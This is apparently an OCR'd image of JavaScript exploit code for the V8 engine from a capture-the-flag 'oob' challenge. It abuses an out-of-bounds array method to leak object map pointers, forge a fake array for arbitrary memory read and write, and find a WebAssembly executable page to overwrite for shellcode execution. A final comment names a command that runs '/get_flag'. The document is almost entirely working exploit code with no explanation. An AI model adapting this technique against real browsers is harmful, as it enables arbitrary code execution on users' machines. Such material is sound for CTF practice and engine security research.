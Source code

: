 ```javascript
float_map = a.oob();
var_map = b.oob();
leak_addr = d2u(float_map);
console.log("[-] double array map pointer: " + hex(leak_addr[0],leak_addr[1]));
leak_addr = d2u(var_map);
console.log("[-] var array map pointer: " + hex(leak_addr[0],leak_addr[1]));

b.oob(float_map);

var fake_obj = [
    u2d(d2u(float_map)[0], d2u(float_map)[1]),
    u2d(0, 0),
    u2d(d2u(float_map)[0], d2u(float_map)[1]), // the element pointer. Set it to where you want to read or write
    u2d(0x0, 0x1000),
].slice(0);

var victim = [fake_obj];
victim.oob(float_map);
leak_addr = d2u(victim[0]);
console.log("[-] Fake array: " + hex(leak_addr[0],leak_addr[1]));
b[0] = u2d(leak_addr[0]-0x20, leak_addr[1]);
b.oob(var_map);
victim.oob(var_map);
victim[0][2]=u2d(leak_addr[0],leak_addr[1]);

var ccc = [0x1234,0xdead,0xbeef,f,buffer];
oob_obj = b[0];

var wasm_idx = 0;
var buffer_idx = 0;
for(let i = 0; i<0x1000; i++){
    if(d2u(oob_obj[i])[1] === 0x1234){
        if(d2u(oob_obj[i+1])[1] === 0xdead){
            wasm_idx = i + 3;
            buffer_idx = i+4;
            console.log("Found!");
            break;
        }
    }
}

let wasm_obj_lo = d2u(oob_obj[wasm_idx])[0];
let wasm_obj_hi = d2u(oob_obj[wasm_idx])[1];
let buffer_lo = d2u(oob_obj[buffer_idx])[0];
let buffer_hi = d2u(oob_obj[buffer_idx])[1];
console.log("[-] buffer pointer : " + hex(buffer_lo, buffer_hi));
console.log("[-] wasm object : " + hex(wasm_obj_lo, wasm_obj_hi));

victim[0][2]=u2d(wasm_obj_lo-0x170 - 0x10 +0x18, wasm_obj_hi);
//victim[0][2]=u2d(wasm_obj_lo-0x170 - 0x10, wasm_obj_hi); // if you debug in d8, use this line

rwx_page = oob_obj[0];
rwx_page_lo = d2u(rwx_page)[0];
rwx_page_hi = d2u(rwx_page)[1];
console.log("[-] rwx page : " + hex(rwx_page_lo, rwx_page_hi));

victim[0][2]=u2d(buffer_lo+0x10 ,buffer_hi);
oob_obj[0] = u2d(rwx_page_lo,rwx_page_hi);

// execute '/get_flag >/tmp/txt ;DISPLAY=:0 /usr/bin/gedit /tmp/txt'
```
